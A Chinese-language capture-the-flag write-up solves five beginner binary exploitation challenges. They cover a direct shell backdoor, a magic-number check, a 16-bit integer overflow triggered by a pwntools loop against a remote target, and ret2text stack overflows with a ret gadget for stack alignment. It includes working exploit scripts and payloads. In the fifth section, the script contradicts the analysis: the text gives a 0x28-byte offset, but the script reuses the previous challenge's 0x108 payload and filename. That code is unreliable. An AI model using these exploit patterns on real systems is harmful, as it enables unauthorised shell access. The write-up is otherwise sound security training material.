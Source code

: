 <h1 id="Wz0mh">**题一**</h1>
先用checksec对附件test进行检查，可以从图中看出这是64为的程序

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699598333-5c04f52a-6864-44ee-ace8-0c91b17cd361.png)

接下来，打开IDA，找到main函数，反编译，查看源代码

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699598508-572ffc1a-8965-4d95-a645-9fd34e2db7b5.png)

从图上可以得到，main函数中直接调用system("/bin/sh")

所以直接nc连接，这样就拿到shell了

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699598686-412df611-89fb-43b2-9803-574dcd3528aa.png)

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699598935-92fd9581-de2f-49ee-b9ce-99fe156496d0.png)

<h1 id="N0dlB">**题二**</h1>
还是先用checksec检查附件，是64为的程序

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699599226-4bb5b388-b9d8-48f4-bd59-352ee5398cd5.png)

使用IDA，找到main函数，查看源代码

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699599524-e8f33dc1-5d6f-415a-bec9-57e77877b6ab.png)

从图中可以看出，我们需要输入整数，当n7038329==7038329时，就执行system("/bin/sh")，直接拿到shell

直接nc

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699599752-d50bc86e-bb25-46d5-ac28-13e848205291.png)

可以看到要输入密码，所以我们直接输入7038329

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699599918-17aa5055-8bec-43c4-8f34-39620bee807d.png)

直接拿到了shell，然后就可以直接打开flag

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760699600121-cd71ae6b-8c1f-4bca-84d0-e59c869fc706.png)

<h1 id="pdExQ">**题三**</h1>
先用checksec对附件INTbug进行检查，可以从图中看出这是64为的程序

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760713047659-47655cff-4d2e-4af9-8baa-449340cfc717.png)

接下来，打开IDA，找到main函数，反编译，查看源代码，可以发现在main主函数下还有一个func的子函数，查看func函数

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760712411902-7e247582-cb06-4748-be2a-0a041f2902a0.png)

函数中，v1被定义为16位有符号整数，它的范围在-32768~32767，从函数中，可以发现当++v1<0时，就能执行if语句了，也就是可以得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760712467788-54ca3da0-d002-49d3-ac7d-562d0ceb0f66.png)

最初v1=0，每输入一个正数的v2，v1自增一次，当v1从32767再自增，会触发整数溢出，<font style="color:rgba(0, 0, 0, 0.85);">数值环绕为-32768，此时就满足++v1的条件，所以要输入32768次正数，让v1触发整数溢出。</font>

<font style="color:rgba(0, 0, 0, 0.85);">编写一个循环32768次向靶机发送数据"1"，使v1自增到32767后触发整数溢出的攻击脚本</font>

```python
from pwn import *
context(arch = 'amd64',os = 'linux', log_level = 'debug')
p = remote("8.147.132.32",34887)
for _ in range(32768):
    p.sendline(b"1")
p.interactive()
```

python3执行，就得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760715265900-a022ffc9-1573-45e8-8aff-f8d2d30f9c47.png)

<h1 id="VNFkW">题四</h1>
先用checksec对附件ret2text2进行检查，可以从图中看出这是64为的程序

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760764753670-c0f41e9a-f03d-4348-9064-5d66d196bed9.png)

IDA

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760796598074-68902b7b-5bc6-4d34-85c9-5f186d8d69d2.png)

在vuln函数中，buf仅能容纳256（0x100）个字节，但是read函数中试图读取320（0x140）个字节，所以就有可能发生缓冲区溢出，可以利用缓冲区溢出，将后门函数的地址覆盖在返回地址上面，让程序执行后门函数，这样就拿到shell

![后门函数地址](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760796724747-44cc70d5-3b8e-4420-8d2b-55a9e613f12d.png)

buf距离rbp有0x100个字节，在缓冲区后面是栈帧指针rbp（8个字节）然后是返回地址，可以写入0x108个字节的垃圾数据，再写入后门函数backdoor的地址，这样后门函数backdoor的地址就覆盖了返回地址，这样就应该可以拿到shell

```python
from pwn import *
context(arch = "amd64",os = "linux",log_level = "debug")
p = process("./ret2text2")
backdoor = 0x4011CA
payload = b'A'*0x108+p64(backdoor)
p.sendline(payload)
p.interactive()
```

没有拿到shell，有错误

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760764917769-5fa88b5a-13f4-4d00-88b2-c10d02b9a61f.png)

从图上的信息可知，64位程序的堆栈平衡问题未解决，触发了EOF

在64位系统中，函数调用要求栈指针（rsp）保持16字节对齐。程序在调用vuln函数前会先将函数的地址（8个字节）进栈，这样就会导致rsp未满足对齐要求，导致后续backdoor函数执行崩溃。

<h2 id="WCIBP">解决方法</h2>
将vuln函数的返回地址弹出栈并跳转到该地址继续执行，这样栈指针就回到了16字节对齐的状态。要用到ret指令

<h3 id="cnOC0"> ret  指令的核心操作</h3>
> ret指令的核心操作：
>
> 弹出返回地址：从当前栈顶（rsp 指向的位置）读取 8 字节的返回地址，这是之前call 指令压栈保存的“函数执行完要回到的位置”。
>
> 更新 rsp：读取地址后，栈顶向上移动 8 字节（因为弹出了 8 字节数据），所以rsp的数值会增加 8（栈向上收缩，弹出数据后栈顶地址升高）。
>

<h3 id="ckeRx">查看ret指令的地址</h3>
用ROPgadget快速查找

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760799183839-72ac6a98-1a68-4992-8e04-299b323e81ee.png)

在栈溢出后，先执行 ret指令，rsp增加 8 变为 0x100 ，刚好满足 16 字节对齐；再跳转到  backdoor  函数，此时 rsp 已对齐，函数能正常执行，不会崩溃。

```python
from pwn import *
context(arch = "amd64",os = "linux",log_level = "debug")
p = process("./ret2text2")
backdoor = 0x4011CA
ret = 0x40101a
payload = b'A'*0x108+p64(ret)+p64(backdoor)
p.sendline(payload)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760799055609-312c4345-69d5-4851-9573-605004dda06a.png)

<h1 id="myohO">题五</h1>
checksec对附件ret2text2进行检查

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760800361959-ec75ed46-77e8-40be-87be-d9c45d5a525a.png)

ida

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760801054557-060f7aca-70d2-42c2-8eb9-6afe80969643.png)

在该函数中有gets函数，gets函数无长度限制，所以就会有缓冲区溢出，这里v1是0x20个字节，加上栈帧指针的8个字节，就是v1距离rbp0x28个字节，可以写入0x28字节的垃圾数据，再写入后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760801499850-fd122d43-d1cf-4032-af8a-16a0f4fd6286.png)

execve函数是系统调用函数，可以替换当前进程的代码段、数据段和堆栈段，在这里也是后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760801880952-79788489-247e-4f0a-8333-36ebbb0eadff.png)

```python
from pwn import *
context(arch = "amd64",os = "linux",log_level = "debug")
p = process("./ret2text2")
fun = 0x4011CA
ret = 0x40101a
payload = b'A'*0x108+p64(ret)+p64(fun)
p.sendline(payload)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2025/png/58912184/1760802201067-a3f5f194-b1e5-4cd9-99fc-87557a7a647b.png)

